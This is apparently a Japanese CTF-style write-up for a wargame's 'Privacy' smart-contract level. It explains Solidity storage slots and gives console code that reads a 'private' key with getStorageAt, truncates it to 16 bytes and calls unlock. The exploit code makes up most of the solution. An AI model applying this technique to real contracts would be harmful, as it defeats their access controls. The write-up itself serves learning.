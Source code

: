 # 問題

Privacy contractのpublic bool lockedをfalseに設定する

- unlock 関数はすでに作成されている
    ```sol
    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }
    ```
    - が、requireでdata[2]を16byteにした値を知る必要がある
    - dataはbytes32[3]型のprivate変数

## ハック

### 前提

- private変数はコントラクトの外から取得することは不可能ではない
- level8でも同じようにprivate変数を取得して突破した
- slot: 32bytesごとに1slot
    - コントラクトの上の行から順番に0slot,1slot,と格納場所が決まっていく
    - 32bytes以上のデータは、複数のslotに跨って格納される
    - web3jsの、web3.eth.getStorageAt("CONTRACT_ADDRESS", "slot番号")によって確認する
        - たぶんethersjsにも同じようなのあるはず


### 手順
- private変数 data の値が、コントラクトのstorage内のどのslotに格納されているか推測する

```sol
contract Privacy {

  bool public locked = true; // bool型なのでデータの大きさ1byte 32bytes以下なので1つのスロットのみで足りる。格納場所はslot0
  uint256 public ID = block.timestamp; // uint256 は32byte slot0に入れると1byte足りないので、この場合slot1に格納
  uint8 private flattening = 10; // uint8は1byte 格納場所はslot2
  uint8 private denomination = 255; uint8は1byte 格納場所はslot2
  uint16 private awkwardness = uint16(block.timestamp); uint16は2byte 格納場所はslot2 => slot2 には、4byte分のデータが入った
  bytes32[3] private data; // Arrayのデータは常に新しいslotを使う。なのでslot3からデータ入れていく
  // そして、32byteのarrayなので、data[0]の値はslot3, data[1]の値はslot4,data[2]の値はslot5となる。
  .........
```

- 検証ツールで、data[2]を取得
```js
await web3.eth.getStorageAt("CONTRACT_ADDRESS_HERE", 5);
=>
"0xe39eea38e8760953ec4b573eb5696c6dd47ba9dc01eafd706b287faba7025aa0"
```

- 取得したdata[2]の値が32byteのままなので、16byteに変換する 
    - 最初の16byteつまり32桁を取得すればいいのだが、値の最初に0xが入っているのでそれを考慮する

```js
let data2 = await web3.eth.getStorageAt("CONTRACT_ADDRESS_HERE", 5);

let byte16data2 = data2.substring(0,34);
await contract.unlock(byte16data2);
// ここでtxが実行される
await contract.locked()
// false
```

- lockedがfalseになってること確認できたらクリア

